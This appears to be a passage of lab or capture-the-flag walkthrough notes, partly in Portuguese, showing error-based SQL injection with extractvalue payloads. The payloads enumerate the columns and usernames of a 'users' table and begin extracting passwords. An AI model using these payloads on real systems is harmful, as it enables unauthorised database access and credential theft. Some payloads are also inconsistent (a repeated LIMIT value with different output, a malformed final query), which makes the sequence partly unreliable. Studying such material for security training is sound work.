     `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like "users" LIMIT 0,1)))-- -`
    
    Output
    
    XPATH syntax error: 'id'
    
    `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like "users" LIMIT 1,1)))-- -`
    
    Output
    
    XPATH syntax error: 'username'
    
    `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like "users" LIMIT 2,1)))-- -`
    
    Output
    
    XPATH syntax error: 'password'
    
    `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like "users" LIMIT 3,1)))-- -`
    
    Output
    
    XPATH syntax error: 'mail'
    
    `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME like "users" LIMIT 3,1)))-- -`
    
    Output
    
    XPATH syntax error: 'role'
    
    Como o erro é diferente do resto quer dizer que já terminou 
    
    8
    
    `') and extractvalue(0x0a,concat(0x0a,(select username from users LIMIT 0,1)))-- -`
    
    XPATH syntax error: 'admin'
    
    `') and extractvalue(0x0a,concat(0x0a,(select username from users LIMIT 1,1)))-- -`
    
    XPATH syntax error: 'penelope'
    
    `') and extractvalue(0x0a,concat(0x0a,(select username from users LIMIT 2,1)))-- -`
    
    XPATH syntax error: 'charles'
    
    `') and extractvalue(0x0a,concat(0x0a,(select username from users LIMIT 3,1)))-- -`
    
    XPATH syntax error: 'tricia'
    
    Users: admin, penelope, charles, tricia
    
    9
    
    Nota
    
    Ao mostrar o resultado, está limitado a 32 characters por isso tem de se fazer de forma diferente.
    
    `') and extractvalue(0x0a,concat(0x0a,substring((select password from users LIMIT 0,1) FROM 30) FROM 1)))-- -`
    
